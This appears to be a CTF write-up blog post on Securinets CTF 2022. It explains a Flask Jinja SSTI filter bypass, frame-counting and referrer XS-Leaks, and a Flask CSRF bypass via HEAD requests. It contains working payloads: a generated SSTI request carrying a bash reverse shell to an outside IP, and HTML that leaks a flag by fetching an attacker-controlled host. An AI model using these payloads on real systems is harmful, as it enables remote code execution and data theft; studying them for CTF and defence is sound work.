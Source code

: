 ```yaml
---
title: 'Securinets CTF 2022'
description: "Some things I've learned from the Securinets CTF: How to bypass Flask Jinja SSTI WAF, XSLeaks with frame counting and referrer, Flask CSRF bypass"
layout: "post.ejs"
date: 2022-05-18T00:00:00Z
---
```


Fun CTF, we managed to win the finals after getting 3rd place in the qualifiers. Too bad I couldn't go to Tunisia because of an exam, but I'm glad that my teammates did. 

I've learned a few web tricks from this CTF that I'd like to share.

![](/assets/images/posts/wtl1.png)

* [Flask Jinja SSTI WAF bypass](#wafbypass)
* [Frame counting XSLeaks](#xsleaksframe)
* [Referer XSLeaks](#xsleaksref)
* [Flask CSRF bypass](#csrfbypass)


<a name="wafbypass"></a>
## Flask Jinja SSTI WAF bypass

```py
if re.search("\{\{|\}\}|(popen)|(os)|(subprocess)|(application)|(getitem)|(flag.txt)|\.|_|\[|\]|\"|(class)|(subclasses)|(mro)|\\\\",request.form['name']) is not None:
    name= "Hacking detected"
```

From the Regex above we see that we're pretty limited with what we can do, no double curly brackets, no dots, no underscore, no ". 

First, we can use {{ '{%' }} {{ '%}' }} syntax to trigger the template injection. Then, instead of `.` we can use `|attr('attribute')`. 

To bypass other values, we can simply use request.args.argName and pass the values via HTTP.

Writing all of that by hand can lead to human error, so it's better to automate the process:

```py
import re

"""
{{ '{%' }} if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('sleep 5')['read']() == 'chiv' {{ '%}' }} a {{ '{%' }} endif {{ '%}' }}
"""

payload = "{{ '{%' }} if (((request|ATR_A|ATR_B|ATR_C|ATR_D)(JST_E)|ATR_F)(JST_G)|ATR_I)() {{ '%}' }} a {{ '{%' }} endif {{ '%}' }}"
payload = "{{ '{%' }} if (request|ATR_A|ATR_B|attr('get')(JST_C)|attr('get')(JST_D))(JST_E)|ATR_F(JST_G)|ATR_I() {{ '%}' }} a {{ '{%' }} endif {{ '%}' }}"

regex = "('[a-z_ 0-9]+')"
regex_a = "ATR_([A-Z])"
regex_b = "JST_([A-Z])"

for p in re.findall(regex_a, payload):
    x = f"attr(request|attr('args')|attr('get')('{p.lower()}'))"
    payload = payload.replace('ATR_'+p, x)

for p in re.findall(regex_b, payload):
    x = f"request|attr('args')|attr('get')('{p.lower()}')"
    payload = payload.replace('JST_'+p, x)

rez = re.search("\{\{|\}\}|(popen)|(os)|(subprocess)|(application)|(getitem)|(flag.txt)|\.|_|\[|\]|\"|(class)|(subclasses)|(mro)|\\\\",payload)

if not rez:
    print(payload)
```

The HTTP request:

```
POST /?a=application&b=__globals__&c=__builtins__&d=__import__&e=os&f=popen&g=/bin/bash+-c+'bash+-i+>%26+/dev/tcp/86.122.204.150/4444+0>%261'&i=read HTTP/1.1
Host: 128.199.3.34:1234
Content-Length: 395
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://128.199.3.34:1234
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://128.199.3.34:1234/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

name={{ '{%' }} if (request|attr(request|attr('args')|attr('get')('a'))|attr(request|attr('args')|attr('get')('b'))|attr('get')(request|attr('args')|attr('get')('c'))|attr('get')(request|attr('args')|attr('get')('d')))(request|attr('args')|attr('get')('e'))|attr(request|attr('args')|attr('get')('f'))(request|attr('args')|attr('get')('g'))|attr(request|attr('args')|attr('get')('i'))() {{ '%}' }} a {{ '{%' }} endif {{ '%}' }}
```

<a name="xsleaksframe"></a>
## Frame counting XSLeaks

Suppose we have a search endpoint that includes an iframe in its response when the search query returns at least one result, and no iframes when there's no results.

We can use window.length to read the numbers of iframes embedded in any window, thus leaking information from our search guesses.

To leak the flag we just need to host this HTML payload on our website and send it to the admin:

```html
<body>
<iframe src="" id="theTarget" name="thewindow"></iframe>
</body>

<script>

window.idx = 0;
window.alph='_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ}';
window.flag = 'Securinets{';

function check()
{
    var el = document.getElementById("theTarget");
    if (thewindow.length == 1) {
        window.flag += window.alph[window.idx];
        fetch('https://8mgwcnnq.requestrepo.com/'+window.flag);
        window.idx = 0;
    } else {
        window.idx += 1;
    }
    if (window.idx < window.alph.length)
    {
        var el = document.getElementById("theTarget");
        el.src = "https://20.124.0.135/search?query="+window.flag+window.alph[window.idx]+":960I3DATT3D43Z8G2QG7Z76V0YXZJMRR1H2R6YTQEJ2994SF1ZOHACKG69RSKZ9M";
    }
}

var el = document.getElementById("theTarget");

el.onload = check;

el.src = "https://20.124.0.135/search?query="+window.flag+window.alph[window.idx]+":960I3DATT3D43Z8G2QG7Z76V0YXZJMRR1H2R6YTQEJ2994SF1ZOHACKG69RSKZ9M";
</script>
```

<a name="xsleaksref"></a>
## Referer XSLeaks

Suppose we have an endpoint that returns the number of search results that match our query as a GET parameter. The endpoint doesn't return the actual content of the search results.

If we can inject arbitrary HTML, but no XSS / Object / Embed due to CSP, then we can make the page redirect to our website + leak the search parameters using the `<meta>` tag:

```html
<meta name="referrer" content="unsafe-url">
<meta http-equiv="refresh" content="0;url=https://wr0j8do9.requestrepo.com/" />
```


<a name="csrfbypass"></a>
## Flask CSRF bypass

```py
from flask_wtf.csrf import CSRFProtect

csrf = CSRFProtect()
csrf.init_app(app)

@app.route('/create_paste', methods=['POST','GET'])
def create():
    if request.method=="GET":
        if 'username' not in session:
            return redirect('/login')
        return render_template("create_paste.html")
    else:
        if 'username' not in session:
            return redirect('/login')
        if len(request.values.get('paste'))<200:
            paste_id = create_paste(
                request.values.get('paste'),
                session['username']
            )
            return redirect('/view?id='+paste_id)
        return redirect('/home')
```

Can you spot the vulnerability in the code above? 

Flask will accept the HEAD method as well and the else doesn't test if the method is POST.

With that, we can bypass CSRFProtect :)